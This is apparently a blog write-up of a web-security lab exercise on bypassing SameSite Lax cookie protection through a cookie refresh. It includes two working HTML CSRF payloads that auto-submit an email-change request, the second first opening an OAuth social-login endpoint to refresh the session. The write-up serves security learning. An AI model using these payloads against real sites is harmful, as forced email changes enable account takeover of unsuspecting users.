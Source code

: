 ```yaml
---
layout: post
title:  "SameSite Lax bypass via cookie refresh"
date:   2024-10-03 09:39:54 +0530
---
```


## Objective 

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

The lab supports OAuth-based login. You can log in via your social media account with the following credentials: `wiener:peter` 

## Solution 

We have a particular SSO login now where when you click on the `My Account` page it redirects back to a `SSO login page` and you can login with credential like `wiener:peter`

Once after entering the credentials and click on `Login` and you need to authorize this application 

![]({{ site.baseurl }}/assets/images/csrf-22.png)

Once after login as fast as I can in less than `120 seconds` and executed the following CSRF POC 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5c0087037bb1f6808ab2d8009900d0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

And it works, I can able to change the mail ID just like what we saw in the previous lab on `Same site lax method override`

But you remember when you click on `My Account` it automatically redirects and initiates a Oauth flow right and for that reason, let's fine tune our payload to initiate a request to `/social-login` endpoint and then wait for 5 seconds and it will reinitiate a `Update email` request 

```html
<form method="POST" action="https://0a5c0087037bb1f6808ab2d8009900d0.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://0a5c0087037bb1f6808ab2d8009900d0.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

Now I've submitted the payload on to the exploit server and then stored it, then deliver it to victim.. which solves our lab 

![]({{ site.baseurl }}/assets/images/csrf-23.png)